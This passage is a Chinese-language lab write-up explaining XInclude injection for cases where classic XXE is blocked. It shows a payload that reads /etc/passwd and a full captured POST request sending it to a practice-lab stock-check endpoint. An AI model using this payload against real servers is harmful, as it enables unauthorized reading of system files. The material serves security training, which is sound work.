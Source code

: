 部分应用程序接收客户端提交的数据将其嵌入到服务器端的 XML 文档中，然后解析文档，当客户端提交的数据被放入后端 SOAP 请求中，然后由后端 SOAP 服务处理时就会出现这种情况的一个示例

在这种情况下您无法执行经典的 XXE 攻击，因为您无法控制整个 XML 文档，因此无法定义或修改 DOCTYPE 元素，但是您可能可以改用 XInclude，XInclude 是 XML 规范的一部分，它允许从子文档构建 XML 文档，您可以在 XML 文档中的任何数据值中放置 XInclude 攻击，因此在仅控制放置在服务器端 XML 文档中单个数据项的情况下可以执行该攻击，而要执行 XInclude 攻击您需要引用 XIncude 命名空间并提供要包含的文件的路径，例如：

```bash
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

靶场演示：  
检查商品的剩余量并使用 Burpsuite 抓包  
[![](assets/1706060044-d2c4c71303d1fd3bd07c5ba5c7e74751.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123132739-1fdc8592-b9b0-1.png)  
构造如下恶意请求载荷

```bash
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```bash
POST /product/stock HTTP/1.1
Host: 0ae300250423820d847064d8006c0005.web-security-academy.net
Connection: close
Content-Length: 126
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0ae300250423820d847064d8006c0005.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ae300250423820d847064d8006c0005.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=u5iqLOnpm7h5y2R8vt2oa1X7KC6i8iiN

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
